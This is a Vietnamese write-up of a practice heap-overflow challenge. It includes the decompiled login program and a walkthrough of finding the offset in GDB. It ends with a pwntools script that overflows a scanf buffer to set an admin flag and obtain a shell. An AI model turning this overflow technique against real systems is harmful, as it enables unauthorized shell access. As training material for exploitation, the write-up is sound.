

# Heap over flow (HOF).
- Cơ bản thì `HOF` cũng giống như `BOF` thay vì ta ghi đè trên stack thì ta lại ghi đè trên `heap`, ta chỉ có thể thay đỏi giá trị cũng như các địa chỉ thực thi được chương trình lưu trữ trên stack, ko thể khai thác bằng cách `OW rip` như `BOF` được.
## Tự Hành.
### 1. Source.  
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  puts("******************************************");
  puts("*    Unauthorize access is forbidden!    *");
  puts("******************************************\n");
  printf("Username: ");
  __isoc99_scanf("%s", username_input);
  printf("Password: ");
  __isoc99_scanf("%s", password_input);
  if ( !memcmp(username_input, username_check, 0x200uLL) && !memcmp(password_input, password_check, 0x200uLL) )
    *(_DWORD *)is_admin = 1;
  if ( *(_DWORD *)is_admin == 1 )
  {
    puts("Access granted!");
    system("/bin/sh");
  }
  else
  {
    puts("Access forbidden!");
  }
  return 0;
}
``` 
### 2. Hướng giải.
- Ta có thể thu được shell bằng cách nhập `username_input` và `password_input` giống với `username_check` và  `password_check` để `is_admin = 1` và ta sẽ thu được shell *NHƯNG* hãy nhìn vào ảnh sau :

- `%s` là 1 lỗi `BOF` ta có thể `OW` các dữ liệu khác , vì thế thay vì phải leak `username_check` và  `password_check` thì ta có thể trực tiếp `OW is_admin = 1` mà ko cần phải thông qua điề kiện cả chương trình , cùng vào GDB debug nhóe.

- Ta vào xem `scanf` ở lần nhập vào `username_input` , nhìn ảnh bạn có thể thấy ở `heap chunks` có thể thấy được địa chỉ heap của `is_admin` , việc cả ta là tính offset từ `username_input` tới `is_admin` ghi vào đấy `0x1` là ta sẽ thu được shell , thế nên tớ sẽ viết script vào để bug lại cách hoạt động của chương trình nhé.

- `offset` : 
- debug thử sau khi đã `HOF` :

    - bạn có thể thấy ta đã ghi đè thành công , ghi đè luôn cả dữ liệu của `password_input` cho nên chương trình ko thể hiểu và in ra các `chunk` khác.
    
    - Ta đã OW `is_admin = 1` thành công mà ko phải thỏa bất kì điều kiện gì của chương trình.
    
    - Ta thành công thu được shell.
### 3. Script
```
#!/usr/bin/python3

from pwn import *

exe = ELF('hof1', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+98
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('0', 0)
else:
        p = process(exe.path)

GDB()
payload = b'a'*0x420 + p64(0x1)
sla(b"Username: ", payload)
sla(b"Password: ", b'bbbb')
p.interactive()
```